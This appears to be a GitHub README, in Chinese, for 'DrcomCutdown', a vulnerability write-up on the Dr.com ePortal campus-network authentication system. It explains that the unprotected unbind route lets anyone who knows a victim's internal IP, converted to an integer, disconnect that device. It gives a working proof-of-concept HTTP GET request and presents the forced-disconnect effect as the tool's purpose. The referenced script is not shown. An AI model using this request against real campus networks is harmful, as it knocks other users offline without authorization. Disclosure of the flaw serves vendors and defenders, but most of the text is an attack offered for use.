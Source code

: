 # DrcomCutdown
Dr.com Eportal校园网认证系统任意踹人下线（断网）漏洞 附脚本

😎测试版本:
  **Guangzhou Hotspot Software Technology Co., Ltd. © 2020   EPortal4.1.3**

🥳效果:
  用此脚本可以将校园网内任意已登陆设备强制踹下线，实现断网效果（前提是得知道目标内网ip地址）

# 原理 -Principle
由于未对unbind路由做验证，导致任意知道受害者内网ip地址的人员，在使用一个简易将ip地址转换为int整型数字的算法后(已附脚本，算法在脚本里面)，可以实现无授权解绑目标mac地址，实现断网效果。

***POC:***
```
GET /eportal/portal/mac/unbind?wlan_user_mac=000000000000&wlan_user_ip={ipToParseIntValue}&lang=en HTTP/1.1
Host: xx.xx.xx.xx:xxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
```

